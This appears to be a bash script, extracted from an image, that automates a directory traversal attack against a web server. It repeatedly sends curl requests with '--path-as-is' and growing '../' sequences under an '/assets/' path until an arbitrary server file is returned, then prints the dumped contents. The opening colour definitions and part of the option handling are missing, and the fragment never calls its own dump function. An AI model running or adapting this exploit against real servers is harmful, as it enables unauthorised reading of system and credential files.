 ```
grayColour="\e[0;37m\033[1m"

# Global Variables
file="$1"
main_url="http://localhost:8080" # Change if necessary.
payload="/assets/" # Change if necessary.
string="../"

# Functions
function ctrl_c(){
  echo -e "\n${redColour}[+] Leaving the program...${endColour}\n"
  tput cnorm; exit 1 # Forced exit and recover the cursor.
}

function helpPanel(){
  echo -e "\n$purpleColour[i]${endColour} ${grayColour}USE OF THE PROGRAM:${endColour} ${purpleColour}$0 -f /file/to/dump${endColour}\n"
  echo -e "\t${grayColour}[1]${endColour} ${purpleColour}f)${endColour} ${grayColour}Indicate the file you want to dump.${endColour}"
  echo -e "\t${grayColour}[2]${endColour} ${purpleColour}h)${endColour} ${grayColour}Get de Help Panel.${endColour}\n"
}

function getFile(){
  file="$1"

  url_checker="$(curl -s -o /dev/null -w "%{http_code}" --path-as-is "$main_url")" 

  tput civis # Remove the cursor from the screen to a better experience.
  
  for i in $(seq 1 15); do
    if [ "$url_checker" -eq 200 ]; then 
      command="$(curl -s --path-as-is "$main_url$payload$string$file")"
      output_checker="$(echo "$command" | grep 404)"
      if [ ! "$output_checker" ]; then 
        echo -e "\n${yellowColour}[+] Curl output to the resulting url: $main_url$payload$string$file.${endColour}\n"
        echo -e "\n${purpleColour}$command${endColour}"
        echo -e "\n${yellowColour}[+] File dumped successfully.${endColour}\n"
        break
      else
        payload+="$string"
      fi
    else 
      echo -e "\n${redColour}[+] The URL is not valid or active. Check it and try again.${endColour}\n"
      tput cnorm # Recover cursor if URL is invalid.
      break
    fi
  done

  tput cnorm # Recover the cursor after a successful execution.
}

# Ctrl+C 
trap ctrl_c INT

if [ "$file" ]; then 
  :
else
  echo -e "\n${redColour}[!] No file indicated to dump.${endColour}"
fi

```